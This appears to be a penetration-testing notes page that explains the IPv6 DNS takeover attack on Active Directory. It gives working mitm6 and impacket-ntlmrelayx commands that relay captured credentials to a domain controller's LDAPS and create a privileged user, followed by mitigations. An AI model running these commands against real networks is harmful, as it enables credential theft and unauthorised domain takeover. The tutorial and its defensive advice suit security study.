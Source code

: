 # IPv6 DNS Takeover

This attack takes advantage of machines utilizing IPv4 while still having IPv6 active in their network adapter properties. When a machine is configured in this way, one question comes to mind. Who is the DNS for IPv6? Most of the time, nobody.

With this misconfiguration, an attacker can listen for any incoming IPv6 traffic, declaring themselves as the DNS for IPv6. Through this process, an attacker can gain authentication to the Domain Controller with LDAP (Lightweight Directory Access Protocol) or SMB (Server Message Block).





## IPv6 DNS Takeover attack

For the installation of the tool follow this steps:

{% code title="mitm6 installation" overflow="wrap" %}
```bash
cd /opt
sudo git clone https://github.com/dirkjanm/mitm6
sudo pipx install .
```
{% endcode %}

{% code title="Kali installation cmd" %}
```bash
sudo apt install mitm6
```
{% endcode %}

### Setup and run Ntlmrelayx

Before starting `mitm6` , we have to configure and run the relay which will attempt to access the DC's LDAP service with the capted credentials.

{% code overflow="wrap" %}
```bash
impacket-ntlmrelayx -6 -t ldaps://DC_IP -wh FAKE.DOMAIN.local -l lootme

# -6: Listen on both IPv6 and IPv4
# -t: Target to relay the credentials to, can be an IP, hostname or URL like domain\username@host:port
# -l: Loot directory in which gathered loot such as SAM dumps will be storedbash (in our local machine)
# -wh: Enable serving a WPAD file for Proxy Authentication attack, setting the proxy host to the one supplied.
```
{% endcode %}

### Run mitm6 tool

Once we have started the relay, we can start the mitm6 tool which simulate a Fake IPv6 DNS.

```bash
sudo mitm6 -d DOMAIN
```



### Check the results

If the attack will successfull we would have our loot directory with all data.

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>



### User creations

When a victim user login into his machine, the tool `mitm6` will try to create a user with more privilege.

For the information check the output of the tool when a user loggins.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>



## Mitigation

### Limits the IPv6 by rule

Disable IPv6 entirely may have unwanted side effects. Setting the following predefined rules to Block instead of Allow prevents the attack from working:

* (Inbound) Core Networking - **Dynamic Host Configuration Protocol for IPv6** (**DHCPV6-In**)
* (Inbound) Core Networking - **Router Advertisement** (**ICMPv6-In**)
* (Outbound) Core Networking - **Dynamic Host Configuration Protocol for IPv6** (**DHCPV6 - Out**)

### Disable WPAD

If WPAD is not in use internally, **disable it** via Group Policy and by disabling the **WinHttpAutoProxySvc service**

### Make LDAP secure by attack

Relaying to LDAP and LDAPS can only be mitigated by **enabling** both **LDAP signing** and LDAP **channel binding**.





